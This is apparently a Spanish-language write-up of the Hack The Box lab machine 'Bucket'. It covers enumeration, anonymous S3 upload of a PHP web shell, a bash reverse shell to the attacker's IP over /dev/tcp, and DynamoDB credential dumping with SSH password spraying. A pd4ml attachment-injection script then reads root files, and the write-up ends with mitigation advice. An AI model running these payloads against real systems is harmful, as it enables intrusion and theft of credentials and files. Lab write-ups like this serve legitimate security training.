

Empezamos con el escaneo: 

```bash
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ ping -c 1 10.10.10.212
PING 10.10.10.212 (10.10.10.212) 56(84) bytes of data.
64 bytes from 10.10.10.212: icmp_seq=1 ttl=63 time=96.6 ms

--- 10.10.10.212 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 96.598/96.598/96.598/0.000 ms
                                                       
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ ports=$(nmap -p- --open -sS -T5 -n -Pn 10.10.10.212 | awk '/^[0-9]+\/tcp/ {split($1,a,"/"); print a[1]}' | paste -sd,)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ echo $ports
22,80
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ nmap -p$ports 10.10.10.212 -sCV -oN bucket_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-19 05:26 EDT
Nmap scan report for 10.10.10.212
Host is up (0.096s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://bucket.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.73 seconds

┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ echo "10.10.10.212 bucket.htb" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.10.212 bucket.htb
```
Visitando la página: 



No hay mucho por aquí, solo vemos que se cargan las imágenes de la siguiente ruta: ``
la agregamos al /etc/hosts y ya nos cargan las imágenes. 

Aplicando fuzzing, no se encuentra nada, vamos a intentar descubrir subdominios. 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ wfuzz -c -u http://10.10.10.212 -H "Host: FUZZ.bucket.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 26 

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.212/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000000247:   404        0 L      2 W        21 Ch       "s3"                                                                                                                       
000009532:   400        12 L     53 W       422 Ch      "#www"                                                                                                                     
000010581:   400        12 L     53 W       422 Ch      "#mail"  
```

Si visitamos `s3.bucket.htb` solo vemos el siguiente mensaje: `{"status": "running"}`

La respuesta en burp: 

```bash 
HTTP/1.1 404 
Date: Mon, 19 May 2025 10:05:22 GMT
Server: hypercorn-h11
content-type: text/html; charset=utf-8
content-length: 21
access-control-allow-origin: *
access-control-allow-methods: HEAD,GET,PUT,POST,DELETE,OPTIONS,PATCH
access-control-allow-headers: authorization,content-type,content-md5,cache-control,x-amz-content-sha256,x-amz-date,x-amz-security-token,x-amz-user-agent,x-amz-target,x-amz-acl,x-amz-version-id,x-localstack-target,x-amz-tagging
access-control-expose-headers: x-amz-version-id
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{"status": "running"}
```

Los ficheros `x-amz` parece que son ficheros internos de aws. 

Podemos interactuar con el `bucket` a través de curl, pero parece que es más fácil con la línea de comando con aws(apt install aswcli). 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls

Unable to locate credentials. You can configure credentials by running "aws configure".
```

Parece que no tenemos permisos, pero si el servicio no está bien configurado, podemos acceder de forma anónima, así que configuramos los parámetros de acceso:

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws configure 
AWS Access Key ID [None]: dano
AWS Secret Access Key [None]: dano
Default region name [None]: dano
Default output format [None]: 
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls
2025-05-19 06:19:04 adserver
```

<h3 style="">Acceso inicial </h3>

Podemos obtener info del bucket con el siguiente comando, que se obtuvo con `aws s3 ls help`

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver
                           PRE images/
2025-05-19 06:35:04       5344 index.html

┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver/images/
2025-05-19 06:37:04      37840 bug.jpg
2025-05-19 06:37:04      51485 cloud.png
2025-05-19 06:37:04      16486 malware.png
```

Intemos subir ficheros para ver si podems hacer algo más interesante: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ echo "test" > text.txt
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb cp test.txt s3://adserver/owo.txt
upload: ./test.txt to s3://adserver/owo.txt
```

Parece que está ahí, pero no podemos acceder al contenido: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb ls s3://adserver/                
                           PRE images/
2025-05-19 06:43:02       5344 index.html
2025-05-19 06:43:37          5 owo.txt
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ curl http://bucket.htb/owo.txt
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at bucket.htb Port 80</address>
</body></html>
```

Tal vez solo acepta `.html` o `php`, le cambiamos la extensión y probamos: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php


┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ curl http://bucket.htb/shell.php?cmd=id                     
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ya podemos mandarnos una shell: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws s3 --endpoint-url http://s3.bucket.htb cp shell.php s3://adserver/                                     
upload: ./shell.php to s3://adserver/shell.php

┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ curl http://bucket.htb/shell.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.76/4443 0>&1'"

┌──(kali㉿kali)-[~]
└─$ rlwrap nc -nlvp 4443
listening on [any] 4443 ...
connect to [10.10.14.76] from (UNKNOWN) [10.10.10.212] 51396
bash: cannot set terminal process group (1065): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bucket:/var/www/html$ script /dev/null -c bash 
script /dev/null -c bash 
Script started, file is /dev/null
www-data@bucket:/var/www/html$ 
zsh: suspended  rlwrap nc -nlvp 4443
                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo ; fg
[1]  + continued  rlwrap nc -nlvp 4443
www-data@bucket:/var/www/html$ 
```

Ya dentro del sistema podemos listar lo que hay en el /home, no podemos leer la flag que está en el directorio de `roy`, pero si podemos enumerar lo que hay dentro de `project`:

```bash
www-data@bucket:/var/www/html$ ls -al /home/roy
ls -al /home/roy
total 28
drwxr-xr-x 3 roy  roy  4096 Sep 24  2020 .
drwxr-xr-x 3 root root 4096 Sep 16  2020 ..
lrwxrwxrwx 1 roy  roy     9 Sep 16  2020 .bash_history -> /dev/null
-rw-r--r-- 1 roy  roy   220 Sep 16  2020 .bash_logout
-rw-r--r-- 1 roy  roy  3771 Sep 16  2020 .bashrc
-rw-r--r-- 1 roy  roy   807 Sep 16  2020 .profile
drwxr-xr-x 3 roy  roy  4096 Sep 24  2020 project
-r-------- 1 roy  roy    33 May 19 10:02 user.txt
www-data@bucket:/var/www/html$ ls -al /home/roy/project
ls -al /home/roy/project
total 44
drwxr-xr-x  3 roy roy  4096 Sep 24  2020 .
drwxr-xr-x  3 roy roy  4096 Sep 24  2020 ..
-rw-rw-r--  1 roy roy    63 Sep 24  2020 composer.json
-rw-rw-r--  1 roy roy 20533 Sep 24  2020 composer.lock
-rw-r--r--  1 roy roy   367 Sep 24  2020 db.php
drwxrwxr-x 10 roy roy  4096 Sep 24  2020 vendor
www-data@bucket:/var/www/html$
```

Pero parece que no tenemos permisos para ver lo que hay dentro de esa DB: 
```bash 
www-data@bucket:/var/www/html$ aws --endpoint-url http://127.0.0.1:4566 dynamodb list-tables 
<int-url http://127.0.0.1:4566 dynamodb list-tables 
You must specify a region. You can also configure your region by running "aws configure".
www-data@bucket:/var/www/html$ aws configure
aws configure
AWS Access Key ID [None]: dano
dano
AWS Secret Access Key [None]: dano
dano
Default region name [None]: dano
dano
Default output format [None]: 


[Errno 13] Permission denied: '/var/www/.aws'
```

Pero desde nuestra máquina atacante si que podemos enumerar la DB: 

```bash 
┌──(kali㉿kali)-[~]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "users"
    ]
}
```

```bash 
┌──(kali㉿kali)-[~]                                                                                                                                                                         
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users                                                                                                                
{                                                                                                                                                                                           
    "Items": [                                                                                                                                                                              
        {                                                                                                                                                                                   
            "password": {                                                                                                                                                                   
                "S": "Management@#1@#"                                                                                                                                                      
            },                                                                                                                                                                              
            "username": {                                                                                                                                                                   
                "S": "Mgmt"                                                                                                                                                                 
            }                                                                                                                                                                               
        },                                                                                                                                                                                  
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

Podemos copiarnos estas contraseñas para intentar un password spraying, también se puede hacer con un comando: 

```bash 
┌──(kali㉿kali)-[~]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[].password.S'
Management@#1@#
Welcome123!
n2vM-<_K_Q:.Aa2

┌──(kali㉿kali)-[~]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb scan --table-name users | jq -r '.Items[].password.S' > passwords
```

Y ya podrìamos acceder como el usuario `roy`:
```bash 
┌──(kali㉿kali)-[~]
└─$ netexec ssh 10.10.10.212 -u roy -p passwords 
SSH         10.10.10.212    22     10.10.10.212     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4
SSH         10.10.10.212    22     10.10.10.212     [-] roy:Management@#1@#
SSH         10.10.10.212    22     10.10.10.212     [-] roy:Welcome123!
SSH         10.10.10.212    22     10.10.10.212     [+] roy:n2vM-<_K_Q:.Aa2  Linux - Shell access!
```

Tomamos la flag: 

```bash 
roy@bucket:~$ whoami
roy
roy@bucket:~$ ls
project  user.txt
```

<h3 style="coloro: "> Escalada de privilegios. </h3>

Explorando el sistema: 

```bash 
roy@bucket:~$ netstat -tnl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:41567         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN 
``` 

En `/etc/apache2/sites-enabled` podemos ver la configuración del sitio, nos damos cuenta que corre como root. 

Nos volvemos a conectar con un tunel ssh para ver que hay en dicho puerto(`ssh -L 8000:localhost:8000`)

Pero no parece haber algo interesante por aquí:


El sitio se encuentra en `/var/www/bucket-app`, tenemos permiso para leer lo que hay dentro: 
```bash 
roy@bucket:/var/www/bucket-app$ ls -l 
total 848
-rw-r-x---+  1 root root     63 Sep 23  2020 composer.json
-rw-r-x---+  1 root root  20533 Sep 23  2020 composer.lock
drwxr-x---+  2 root root   4096 Feb 10  2021 files
-rwxr-x---+  1 root root  17222 Sep 23  2020 index.php
-rwxr-x---+  1 root root 808729 Jun 10  2020 pd4ml_demo.jar
drwxr-x---+ 10 root root   4096 Feb 10  2021 vendor
```


Revisando el código en `index.php`

```bash 
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        file_put_contents('files/'.$name,$item["data"]);
                }
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
}
else
{
?>
```

- Cuando llega una petición POST con action=get_alerts, se conecta al cliente de DynamoDB local (endpoint: http://localhost:4566).
- Hace un Scan sobre la tabla alerts, filtrando por title = "Ransomware".
- Por cada ítem que devuelve, toma el contenido de la columna data, lo guarda en un archivo HTML con nombre aleatorio dentro de files/.
- Ejecuta luego un comando Java (pd4ml_demo.jar) que convierte ese HTML en un PDF (result.pdf) dentro de la misma carpeta.

Vamos a probar esto, primero necesitamos crear la tabla `alerts` porque antes vimos que solo existía la tabla `users`. 

[Aquí](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/getting-started-step-1.html)la documentación de aws para hacer esto. 

```bash 
──(kali㉿kali)-[~/labs-hack/bucket]                                                                                                                                                        
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-s
chema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5

{                                                                                                                                                                                           
    "TableDescription": {                                                                                                                                                                   
        "AttributeDefinitions": [                                                                                                                                                           
            {                                                                                                                                                                               
                "AttributeName": "title",                                                                                                                                                   
                "AttributeType": "S"                                                                                                                                                        
            },                                                                                                                                                                              
            {                                                                                                                                                                               
                "AttributeName": "data",                                                                                                                                                    
                "AttributeType": "S"                                                                                                                                                        
            }                                                                                                                                                                               
        ],                                                                                                                                                                                  
        "TableName": "alerts",                                                                                                                                                              
        "KeySchema": [
            {
                "AttributeName": "title",                                                                                                                                                   
                "KeyType": "HASH"                                                                                                                                                           
            },
            {
                "AttributeName": "data",
                "KeyType": "RANGE"
            }
        ],
        "TableStatus": "ACTIVE",
        "CreationDateTime": "2025-05-19T21:21:09.830000-04:00",
        "ProvisionedThroughput": {
            "LastIncreaseDateTime": "1969-12-31T19:00:00-05:00",
            "LastDecreaseDateTime": "1969-12-31T19:00:00-05:00",
            "NumberOfDecreasesToday": 0,
            "ReadCapacityUnits": 10,
            "WriteCapacityUnits": 5
        },
        "TableSizeBytes": 0,
        "ItemCount": 0,
        "TableArn": "arn:aws:dynamodb:us-east-1:000000000000:table/alerts"
    }
}
```

Ya aparece la tabla: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb list-tables
{
    "TableNames": [
        "alerts",
        "users"
    ]
}
```

Ya podemos agregarle atributos: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"This is a test"}}'
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
```

Activamos la alerta: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/bucket]
└─$ curl http://127.0.0.1:8000/index.php --data 'action=get_alerts'
```

Y en el directorio de roy podemos ver el resultado: 
```bash 
roy@bucket:/var/www/bucket-app/files$ ls
5065.html  result.pdf
roy@bucket:/var/www/bucket-app/files$ cat 5065.html
This is a test
```

Bien, podemos intentar extraer ficheros del sistema, con el siguiente script se puede hacer esto para no tener que estar ejecutando los comandos: 
```bash 
#!/bin/bash


target=$1

# delete table
aws --endpoint-url http://s3.bucket.htb dynamodb delete-table --table-name alerts 2>/dev/null >/dev/null
# create table
aws --endpoint-url http://s3.bucket.htb dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH             AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 >/dev/null
# put entry into table; use commandline arg as target file
aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src=\"'"$target"'\" description=\"attachment sample\" icon=\"Paperclip\"/></        html>"}}' >/dev/null
# sleep to allow DB to sync
sleep 0.2
# trigger PDF generation
curl -s http://127.0.0.1:8000/index.php --data 'action=get_alerts'
# sleep to allow PDF generation
sleep 0.2
# get pdf
sshpass -p 'n2vM-<_K_Q:.Aa2' scp roy@10.10.10.212:/var/www/bucket-app/files/result.pdf .

# extract 
tfile="/tmp/bucket-pdf-out"
pdfdetach result.pdf -save 1 -o $tfile
cat $tfile
rm $tfile
```


Y funciona: 

```bash 
──(kali㉿kali)-[~/labs-hack]
└─$ ./get_files.sh /etc/passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
roy:x:1000:1000:,,,:/home/roy:/bin/bash
```

Podemos listar directorios y por ende, la flag de root: 
```bash
┌──(kali㉿kali)-[~/labs-hack]
└─$ ./get_files.sh /root       
.aws
.bash_history
.bashrc
.cache
.config
.java
.local
.profile
.ssh
backups
docker-compose.yml
files
restore.php
restore.sh
root.txt
snap
start.sh
sync.sh
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack]
└─$ ./get_files.sh /root/root.txt 
c121aaf08f0c5c2f0f62c4d84199aeb1
```


En “bucket” el script PHP (y por tanto el comando Java) se está ejecutando como root (o al menos como un usuario con permisos de lectura sobre /etc/shadow). Por eso Pd4ml puede abrir /etc/shadow sin ningún problema. 

---

Algunos consejos para mitigar esto: 

Para mitigar esta escalada de privilegios basada en la conversión HTML→PDF con Pd4ml y LFI, se pueden aplicar varias defensas en capas:

1. **Principio de menor privilegio**

   * Ejecutar el proceso web (PHP + Java) con un usuario *no-root* y con permisos solo sobre el directorio `files/`.
   * Usar mecanismos de sandboxing (p. ej. AppArmor, SELinux o un contenedor Docker) para limitar aún más los ficheros accesibles.

2. **Validación y saneamiento de la entrada**

   * Nunca permitir que el usuario inyecte directamente etiquetas XML o HTML complejas.
   * Aplica un filtro estricto (whitelist) que solo deje etiquetas absolutas y atributos permitidos, o bien escapar por completo todo el contenido antes de generar el HTML.

3. **Deshabilitar funcionalidades innecesarias de Pd4ml**

   * Si no se necesita incrustar attachments, desactivar o quita del classpath el support de `<pd4ml:attachment>`.
   * Revisar la documentación de Pd4ml para limitar o deshabilitar recursos externos o tags especiales.

4. **Aislar la generación de PDF**

   * En lugar de invocar `passthru` directamente desde PHP, poner la generación en un servicio colateral con su propio entorno controlado.
   * Comunicarse con él por colas o APIs internas, sin exponer directamente rutas de ficheros del sistema.

5. **Configuración de DynamoDB local**

   * Restringir el endpoint local para que sólo escuche en `localhost` o use autenticación.
   * Usar roles o credenciales temporales, no el perfil `default` sin restricciones.

6. **Monitoreo y alertas**

   * Registrar y alertar accesos al directorio `files/` y a operaciones de `delete-table` / `create-table` para detectar patrones anómalos.
   * Controlar cambios en la tabla `alerts` para asegurar que no se estén inyectando datos maliciosos.


